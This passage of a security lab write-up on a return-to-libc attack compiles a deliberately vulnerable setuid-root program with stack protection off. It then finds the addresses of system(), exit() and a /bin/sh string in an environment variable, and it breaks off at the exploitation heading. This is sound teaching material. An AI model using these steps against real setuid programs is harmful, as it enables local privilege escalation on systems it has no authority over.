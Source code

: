 # 4 Return-to-libc Attack

## 4.3 Debugging a program

1. Set up the vulnerable program:

```bash
gcc -o retlib -z noexecstack -fno-stack-protector -DBUFSIZE=46 -g retlib.c
sudo chown root retlib
sudo chmod 4755 retlib
```

2. Start GDB and set breakpoints:

<img src="/images/4-3-1.PNG" style="zoom:67%;" />

- Address of `system()` is `0xb7e42da0`.
- Address of `exit()` is `0xb7e369d0`.

## 4.4 Putting the shell string in the memory

Setting up the environment variable:

```bash
export MYSHELL=/bin/sh
```

Executing the code to obtain the address of `MYSHELL`:

```c
#include <stdio.h>

int main(){
	char* shell = getenv("MYSHELL");
	if (shell) {
		printf("%x\n", (unsigned int)shell);
	}
	return 0;
}
```

```bash
gcc -o env555 env555.c
./env555
```

<img src="/images/4-4-1.PNG" style="zoom:67%;" />

The address of `MYSHELL`, which is also the address of the string `/bin/sh`, is `0xbffffddc`.

This experiment also confirmed the length of the program name will affect the address of the environment variable; if the program is named `env6666`, the address of `MYSHELL` will be `0xbffffdda`.

## 4.5 Exploiting the Vulnerability
